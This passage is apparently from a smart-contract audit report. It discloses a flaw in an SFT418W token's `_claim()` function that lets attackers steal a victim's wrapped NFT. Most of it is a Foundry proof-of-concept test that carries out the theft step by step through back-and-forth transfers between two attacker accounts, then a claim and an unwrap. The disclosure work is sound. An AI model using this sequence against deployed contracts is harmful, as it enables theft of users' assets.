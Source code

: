 The victim might call `_claim()` after that, getting another NFT, but not the same.

Note how another similar function like `_swap()` prevents this attack with a `require(TOKEN_POOL == _chunkToOwners[targetId_].owner)` check.

**Proof of Concept**

- Add a claiming function to `test/demo/SFT418WPairDemoV2.sol`:

```solidity
function claim(uint256 id_) public virtual {
    _claim(id_);
}
```

- Add the test to `test/SFT418WV2.t.sol`
- Run `forge test --mt "testClaimVulnerability"`

```solidity
function testClaimVulnerability() public {
    // Set-up

    address victim = address(0x71C714);
    address attacker1 = address(0x666);
    address attacker2 = address(0x667);

    iToken.mint(victim, 1337);
    iToken.mint(attacker1, 666);
    iToken.mint(attacker2, 667);

    hevm.startPrank(victim);
    iToken.approve(address(token), 1337);
    pToken.wrap(1337);
    hevm.stopPrank();

    hevm.startPrank(attacker1);
    iToken.approve(address(token), 666);
    pToken.wrap(666);
    hevm.stopPrank();

    hevm.startPrank(attacker2);
    iToken.approve(address(token), 667);
    pToken.wrap(667);
    hevm.stopPrank();

    // Attack

    hevm.prank(attacker1);
    token.transfer(attacker2, 1);

    hevm.prank(attacker2);
    token.transfer(attacker1, 1);

    assertEq(pToken.ownerOf(1337), victim);

    hevm.prank(attacker1);
    pToken.claim(1337);

    assertEq(pToken.ownerOf(1337), attacker1);

    hevm.prank(attacker1);
    pToken.unwrap(1337);

    assertEq(iToken.ownerOf(1337), attacker1);
}
```
